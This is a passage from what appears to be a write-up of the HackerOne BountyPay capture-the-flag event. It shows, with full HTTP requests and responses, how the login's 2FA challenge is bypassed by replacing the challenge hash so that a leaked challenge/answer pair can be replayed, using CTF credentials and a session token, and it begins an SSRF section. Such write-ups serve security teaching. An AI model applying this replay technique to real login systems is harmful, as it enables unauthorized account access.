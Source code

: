 In above form we can see *challenge* param that looks like [MD5 hash](https://en.wikipedia.org/wiki/MD5). By replacing *challenge* value md5 hash of **bD83Jk27dQ** (*challenge answer* from `bp_web_trace.log`) - we can re-use previously generated pair of challenge and answer and gain access to system.

HTTP login request:

```
POST / HTTP/1.1
Host: app.bountypay.h1ctf.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:77.0) Gecko/20100101 Firefox/77.0
(...)

username=brian.oliver&password=V7h0inzX&challenge=5828c689761cce705a1c84d9b1a1ed5e&challenge_answer=bD83Jk27dQ
```

HTTP response:

```
HTTP/1.1 302 Found
Server: nginx/1.14.0 (Ubuntu)
Date: Wed, 10 Jun 2020 00:13:51 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Set-Cookie: token=eyJhY2NvdW50X2lkIjoiRjhnSGlxU2RwSyIsImhhc2giOiJkZTIzNWJmZmQyM2RmNjk5NWFkNGUwOTMwYmFhYzFhMiJ9; expires=Fri, 10-Jul-2020 00:13:51 GMT; Max-Age=2592000
Location: /
Content-Length: 0
```

{F861498}

## SSRF in api.bountypay.h1ctf.com

Application dashboard on `app.bountypay.h1ctf.com` doesn't show much more than **Load Transactions** button, that shows no data. But it sends requests to `/statements` endpoint:

```
GET /statements?month=01&year=2020 HTTP/1.1
Host: app.bountypay.h1ctf.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:77.0) Gecko/20100101 Firefox/77.0
(...)
Cookie: token=eyJhY2NvdW50X2lkIjoiRjhnSGlxU2RwSyIsImhhc2giOiJkZTIzNWJmZmQyM2RmNjk5NWFkNGUwOTMwYmFhYzFhMiJ9
```

...and response body:

```json
{
    "url": "https:\/\/api.bountypay.h1ctf.com\/api\/accounts\/F8gHiqSdpK\/statements?month=01&year=2020",
    "data": "{\"description\":\"Transactions for 2020-01\",\"transactions\":[]}"
}
```
